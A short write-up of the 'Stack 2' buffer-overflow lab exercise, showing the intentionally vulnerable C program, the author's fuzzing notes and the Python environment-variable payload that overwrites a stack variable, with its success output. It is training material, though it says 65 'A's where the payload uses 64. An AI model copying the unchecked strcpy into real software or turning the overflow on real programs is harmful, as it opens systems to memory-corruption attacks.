

# [cd ../](../index.md)
# Stack 2
> Stack2 looks at environment variables, and how they can be set.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Fuzzin it
- We know we have to use stg about getenv(`man getenv` for literally nothing xd)
- Start setting a `GREENIE` environment variable to `test` (`export GREENIE=test` then execute `./stack2`)
  - Got nothing useful (`Try again, you got 0x00000000`)
- Set 64 `A` as GREENIE
  - Same
- Set 65 `A` as GREENIE
  - Gotcha `Try again, you got 0x00000041`

## Exploitin it
- We need `modified` to be `0x0d0a0d0a` and it's a lil endian elf again cuz `A` (41) popped on the end.
  
`0x0d0a0d0a` is `0a0d0a0d` and these are `\n\r\n\r`. These 4 are special chars so we have to use python and work in base16 with them.

## The payload
GREENIE has to be  65 `A` + `\x0a\x0d\x0a\x0d`
```
export GREENIE=$(python -c 'print 64*"A" + "\x0a\x0d\x0a\x0d"')
./stack2
you have correctly modified the variable
```
BOOOOM GOT IT :D

